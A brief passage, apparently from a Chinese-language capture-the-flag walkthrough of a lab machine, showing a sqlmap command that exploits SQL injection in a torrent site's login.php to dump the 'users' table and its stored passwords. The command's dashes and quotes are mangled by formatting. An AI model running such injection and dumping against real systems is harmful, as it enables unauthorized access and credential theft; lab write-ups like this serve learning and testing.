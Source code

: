 ![](img/eb7134aafb01525b013085adde072f44.png)

数据库

“用户”表可能很有趣。存储的密码将是头奖，所以让我们用下面的命令转储表“users ”:

```
sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) — data=”password=test&username=test” — method POST -D torrenthoster -T users --dump all
```
